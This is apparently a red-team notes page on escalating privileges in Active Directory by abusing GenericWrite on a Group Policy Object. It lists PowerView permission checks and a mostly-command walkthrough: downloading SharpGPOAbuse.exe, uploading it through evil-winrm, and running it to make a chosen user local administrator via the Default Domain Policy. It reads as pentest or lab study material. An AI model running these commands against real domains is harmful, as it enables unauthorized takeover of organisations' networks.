 ## Generic Write to a GPO (Group Policy Object)

This article will explain what you need to know in terms of theory from the perspective of a red-teamer: [https://wald0.com/?p=179](https://wald0.com/?p=179). It also explains that dotted lines in Bloodhound means that inheritence is blocked, which doesn’t necessarily mean that your exploit won’t work. Harmj0y writes more about [how to abuse GPO permissions](https://blog.harmj0y.net/redteaming/abusing-gpo-permissions/).

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%207.png)

You can also verify these privileges with `Get-GPPermission` from powerview.

```bash
Get-NetGPO # to find GUID of GPO
Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9 -TargetType User -TargetName anirudh
```

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%208.png)

You can pretty much do anything with GPO. In order for you changes to take place, you can make your own GPT.ini file, use New-GPOImmediateTask, or SharpGPOAbuse.exe.

### SharpGPOAbuse.exe (preferred, more likely to work)

```bash
# get sharp GPO
wget https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe

# in evil-winrm
upload SharpGPOAbuse.exe
# replace "anirudh" with your user with GenericWrite and "GPOName" with the name of your GPO
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```
